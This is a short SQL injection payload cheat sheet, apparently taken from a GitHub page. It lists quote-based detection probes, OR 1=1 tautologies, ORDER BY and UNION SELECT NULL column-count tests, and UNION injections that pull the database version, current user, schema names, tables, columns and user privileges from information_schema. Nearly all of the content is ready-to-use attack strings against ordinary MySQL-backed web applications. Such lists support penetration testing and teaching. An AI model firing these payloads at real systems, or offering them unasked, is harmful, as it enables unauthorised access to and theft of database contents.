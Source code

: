 ```sql
-1' UNION SELECT 1, grantee FROM information_schema.user_privileges -- -
```

## Payload Cheat Sheet

### Detection Payloads

```sql
'
"
`
')
")
`)
' OR '1'='1
" OR "1"="1
` OR `1`=`1
```

### Union Detection

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
...
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

### Information Gathering

```sql
# Database version
-1' UNION SELECT NULL, @@version -- -

# Current user
-1' UNION SELECT NULL, user() -- -

# Database name
-1' UNION SELECT NULL, database() -- -

# List databases
-1' UNION SELECT NULL, schema_name FROM information_schema.schemata -- -

# List tables
-1' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='TARGET_DB' -- -

# List columns
-1' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='TARGET_TABLE' -- -
```
